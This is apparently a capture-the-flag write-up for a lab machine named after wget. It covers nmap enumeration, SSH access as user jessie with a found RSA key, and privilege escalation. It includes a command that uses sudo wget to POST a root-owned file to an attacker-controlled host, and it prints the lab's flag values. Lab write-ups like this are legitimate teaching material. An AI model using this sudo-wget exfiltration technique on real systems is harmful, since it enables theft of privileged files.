









Wget
Enumeration
nmap -sV -T4 -A -p 10.10.249.219

We have an HTTP server up. Looks to be the default Apache landing page. Looking further into the source, however, reveals an important piece of information.

Jessie could be a potential user, but for now let's do some subdomain enumeration.

It found one named sitemap.

Nothing interesting on this subdomain, let's keep looking.

We can now SSH with jessie as our user and this RSA key.
nano id_rsa chmod 600 id_rsa
SSH as Jessie

We're in. Looking around the home directory leads us to the user flag.

Privilege Escalation

We have sudo privileges for wget — fitting for the room name. We can use this to POST the root flag directly to our machine.

sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.13.87.5:3243/
And there we go.
User: 057c67131c3d5e42dd5cd3075b198ff6 Root: b1b968b37519ad1daa6408188649263d